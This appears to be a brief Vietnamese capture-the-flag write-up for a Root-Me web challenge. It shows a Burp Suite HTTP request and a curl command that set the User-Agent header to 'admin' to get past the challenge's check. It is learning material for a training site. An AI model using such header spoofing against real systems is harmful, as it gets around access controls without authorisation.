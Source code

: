 Cách 1: Dùng Burp Suite
GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: admin

Cách 2
curl -A 'admin' http://challenge01.root-me.org/web-serveur/ch2/
